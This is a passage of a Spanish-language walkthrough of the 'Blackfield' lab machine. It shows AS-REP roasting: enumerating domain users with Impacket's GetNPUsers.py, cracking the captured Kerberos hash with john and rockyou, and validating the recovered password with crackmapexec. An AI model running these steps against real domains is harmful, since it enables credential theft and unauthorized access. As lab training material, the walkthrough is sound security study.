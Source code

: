 Resultado:

![imagen 8](Pasted image 20230721183752.png)


Por otro lado, se utiliza **GetNPUsers.py** de Impacket de la siguiente forma:

```bash
r1pfr4n@parrot> GetNPUsers.py -no-pass -usersfile users.txt blackfield.local/
```

Tras la ejecución de la herramienta, se pueden observar tres tipos de mensajes:

1. `[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)`: indica que el usuario que se está probando no existe en el dominio.
2. `[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set`: indica que el usuario sí existe en el dominio, pero no tiene el atributo `UF_DONT_REQUIRE_PREAUTH` establecido.
3. **Hash del usuario**: se muestra cuando el usuario es del dominio y tiene el atributo `UF_DONT_REQUIRE_PREAUTH` establecido. Este hash es de la clave de sesión cifrada con la contraseña del usuario.

Ejemplo de los tres tipos de mensajes:

![imagen 9](Pasted image 20230721182426.png)

A partir de la ejecución de ambas herramientas, se descubre que de los 314 usuarios de la lista, **solo tres son válidos** en el dominio: `svc_backup`, `support` y `audit2020`. Además, se revela que el usuario `support` es susceptible a un ataque ASREPRoast.

El **hash** obtenido es el siguiente:

```bash
$krb5asrep$23$support@BLACKFIELD.LOCAL:849b272dedf6158d3a090382195b9cc1$a8cdda4e5b0ebc0a8b47162e42ffcee7d67443d9fa8f18eeda6071f5deb570abb05ece3be1d65199e03b52d7ef40c12057517913ebc436de51a019d07ca849543b84d77b2ecb1738965cd07fdc17b4c9a2fb1ed74310e61f2871d84b2adf96a0bf70e377947fbf8d5f917a05b249ad828131619c4714f93204a8bfe7e38bee53451b8e4790c8c12c1d9ad44ef21c60ba95169282fc1153207255e432e4175313c00dc1c33f2e664ad16f067eab9dc9dcfe98be97a84fed7e1fde1e5120e42b05c2fd09d845436b91e290f6c4f20f0b502342896ae6606cc7d511d9e88dae7ad251761ec8bc6a01ccb2f734fdb621f90bd8d142ab
```

Se guarda el hash de la clave de sesión en un archivo llamado `hash` y se procede a intentar romperlo con la herramienta **john**:

```bash
r1pfr4n@parrot> john -w=/usr/share/wordlists/rockyou.txt hash
```

Donde `-w=/usr/share/wordlists/rockyou.txt` es la ruta de la lista de palabras que se utilizará para intentar descifrar el hash. 

Como resultado, se obtiene la contraseña `#00^BlackKnight` para el usuario `support`:

![imagen 10](Pasted image 20230721182731.png)

Con las credenciales en mano, se utiliza **crackmapexec** para verificar su validez:

```bash
r1pfr4n@parrot> crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

